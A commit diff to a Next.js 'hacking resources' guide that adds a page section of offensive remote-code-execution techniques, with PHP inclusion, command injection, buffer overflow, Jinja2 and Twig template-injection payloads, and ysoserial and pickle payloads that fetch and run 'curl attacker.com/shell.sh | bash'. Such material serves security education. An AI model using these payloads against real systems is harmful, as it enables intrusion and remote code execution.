

Before and after one commit to AnonAmosAdmn/HackingResourcesGuide, a Next.js app: page /rce in a window 1280 px wide. Shown: the part 580-2500 px from the top of the page at 70% size. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update page.tsx

```diff
--- a/app/rce/page.tsx
+++ b/app/rce/page.tsx
@@ -25,6 +25,179 @@ export default function RCEPage() {
       </section>
 
 
+      <section className="mb-10">
+        <h2 className="text-3xl font-semibold mb-4 text-red-600">Red Team Techniques (Offensive)</h2>
+
+        <article className="mb-6 bg-gray-900 p-4 rounded-lg">
+          <h3 className="text-xl font-semibold mb-2 text-red-400">1. Web Application RCE</h3>
+          <p className="mb-3">
+            Web application RCE occurs when user input is improperly sanitized and gets evaluated as code by the server. Common vectors include injection flaws, deserialization vulnerabilities, and template injection.
+          </p>
+
+          <div className="space-y-4">
+            <div>
+              <h4 className="font-medium mb-1">PHP Code Injection</h4>
+              <pre className="bg-gray-700 p-3 rounded overflow-auto">
+{`http://vulnerable.com/page.php?file=data://text/plain,<?php system($_GET['cmd']);?>`}
+              </pre>
+              <p className="text-sm text-gray-400 mt-1">Injects PHP code through file inclusion vulnerability.</p>
+            </div>
+
+            <div>
+              <h4 className="font-medium mb-1">Command Injection</h4>
+              <pre className="bg-gray-700 p-3 rounded overflow-auto">
+{`http://vulnerable.com/ping?ip=127.0.0.1;id`}
+              </pre>
+              <p className="text-sm text-gray-400 mt-1">Appends OS commands to legitimate input.</p>
+            </div>
+
+            <div>
+              <h4 className="font-medium mb-1">Java Deserialization</h4>
+              <pre className="bg-gray-700 p-3 rounded overflow-auto">
+{`POST /api/v1/process HTTP/1.1
+Content-Type: application/x-java-serialized-object
+
+<base64 encoded ysoserial payload>`}
+              </pre>
+              <p className="text-sm text-gray-400 mt-1">Exploits insecure deserialization in Java applications.</p>
+            </div>
+
+            <div className="p-3 bg-red-900/30 rounded">
+              <h4 className="font-medium mb-1">Common Web RCE Vectors:</h4>
+              <ul className="list-disc list-inside ml-4 space-y-1">
+                <li>Command injection (OS commands)</li>
+                <li>Code injection (PHP, Python, Node.js, etc.)</li>
+                <li>Insecure deserialization</li>
+                <li>Server-Side Template Injection (SSTI)</li>
+                <li>Expression Language Injection</li>
+              </ul>
+            </div>
+          </div>
+        </article>
+
+        <article className="mb-6 bg-gray-900 p-4 rounded-lg">
+          <h3 className="text-xl font-semibold mb-2 text-red-400">2. Binary Exploitation RCE</h3>
+          <p className="mb-3">
+            Binary exploitation involves manipulating compiled programs to execute arbitrary code through memory corruption vulnerabilities like buffer overflows, format string bugs, and use-after-free errors.
+          </p>
+
+          <div className="space-y-4">
+            <div>
+              <h4 className="font-medium mb-1">Buffer Overflow</h4>
+              <pre className="bg-gray-700 p-3 rounded overflow-auto">
+{`./vulnerable $(python -c 'print "A"*500 + "\\xef\\xbe\\xad\\xde"')`}
+              </pre>
+              <p className="text-sm text-gray-400 mt-1">Overwrites return address with controlled value.</p>
+            </div>
+
+            <div>
+              <h4 className="font-medium mb-1">Return-Oriented Programming (ROP)</h4>
+              <pre className="bg-gray-700 p-3 rounded overflow-auto">
+{`# ROP chain construction
+# Gadget 1: pop rdi; ret
+# Gadget 2: address of "/bin/sh"
+# Gadget 3: address of system()`}
+              </pre>
+              <p className="text-sm text-gray-400 mt-1">Bypasses DEP by chaining existing code snippets.</p>
+            </div>
+
+            <div className="p-3 bg-red-900/30 rounded">
+              <h4 className="font-medium mb-1">Common Binary Exploit Types:</h4>
+              <ul className="list-disc list-inside ml-4 space-y-1">
+                <li>Stack-based buffer overflow</li>
+                <li>Heap overflow</li>
+                <li>Format string vulnerability</li>
+                <li>Use-after-free</li>
+                <li>Race conditions</li>
+              </ul>
+            </div>
+          </div>
+        </article>
+
+        <article className="mb-6 bg-gray-900 p-4 rounded-lg">
+          <h3 className="text-xl font-semibold mb-2 text-red-400">3. Deserialization Attacks</h3>
+          <p className="mb-3">
+            Insecure deserialization converts serialized data into objects without proper validation, allowing attackers to craft malicious payloads that execute code during deserialization.
+          </p>
+
+          <div className="space-y-4">
+            <div>
+              <h4 className="font-medium mb-1">Java Deserialization (ysoserial)</h4>
+              <pre className="bg-gray-700 p-3 rounded overflow-auto">
+{`java -jar ysoserial.jar CommonsCollections5 'curl attacker.com/shell.sh | bash' > payload.bin`}
+              </pre>
+              <p className="text-sm text-gray-400 mt-1">Generates malicious serialized object for Java apps.</p>
+            </div>
+
+            <div>
+              <h4 className="font-medium mb-1">Python Pickle Exploit</h4>
+              <pre className="bg-gray-700 p-3 rounded overflow-auto">
+{`import pickle
+import os
+
+class RCE:
+    def __reduce__(self):
+        return (os.system, ('curl attacker.com/shell.sh | bash',))
+
+pickle.dump(RCE(), open('payload.pkl','wb'))`}
+              </pre>
+              <p className="text-sm text-gray-400 mt-1">Creates malicious pickle file that executes code when loaded.</p>
+            </div>
+          </div>
+        </article>
+
+        <article className="mb-6 bg-gray-900 p-4 rounded-lg">
+          <h3 className="text-xl font-semibold mb-2 text-red-400">4. Template Injection</h3>
+          <p className="mb-3">
+            Server-Side Template Injection (SSTI) occurs when user input is embedded in templates in an unsafe manner, allowing attackers to inject template directives that execute code.
+          </p>
+
+          <div className="space-y-4">
+            <div>
+              <h4 className="font-medium mb-1">Jinja2 SSTI (Python)</h4>
+              <pre className="bg-gray-700 p-3 rounded overflow-auto">
+{`{{ ''.__class__.__mro__[1].__subclasses__()[407]('whoami', shell=True, stdout=-1).communicate() }}`}
+              </pre>
+              <p className="text-sm text-gray-400 mt-1">Exploits Python template engines to execute commands.</p>
+            </div>
+
+            <div>
+              <h4 className="font-medium mb-1">Twig SSTI (PHP)</h4>
+              <pre className="bg-gray-700 p-3 rounded overflow-auto">
+{`{{ _self.env.registerUndefinedFilterCallback("exec") }}
+{{ _self.env.getFilter("id") }}`}
+              </pre>
+              <p className="text-sm text-gray-400 mt-1">Executes system commands through Twig templates.</p>
+            </div>
+          </div>
+        </article>
+
+        <article className="mb-6 bg-gray-900 p-4 rounded-lg">
+          <h3 className="text-xl font-semibold mb-2 text-red-400">5. RCE Tools & Payloads</h3>
+
+          <h4 className="font-medium mb-1 mt-3">Exploitation Frameworks</h4>
+          <ul className="list-disc list-inside ml-4 space-y-1">
+            <li>Metasploit Framework (multi-platform)</li>
+            <li>ysoserial (Java deserialization)</li>
+            <li>GadgetProbe (Java deserialization probing)</li>
+          </ul>
+
+          <h4 className="font-medium mb-1 mt-3">Payload Generators</h4>
+          <ul className="list-disc list-inside ml-4 space-y-1">
+            <li>msfvenom (Metasploit payload generator)</li>
+            <li>Shells.s (Reverse shell cheat sheet)</li>
+            <li>RevShells (Interactive reverse shell generator)</li>
+          </ul>
+
+          <h4 className="font-medium mb-1 mt-3">Post-Exploitation</h4>
+          <ul className="list-disc list-inside ml-4 space-y-1">
+            <li>Cobalt Strike (command and control)</li>
+            <li>Empire (post-exploitation framework)</li>
+            <li>Mimikatz (credential dumping)</li>
+          </ul>
+        </article>
+      </section>
+
 
 
 
```
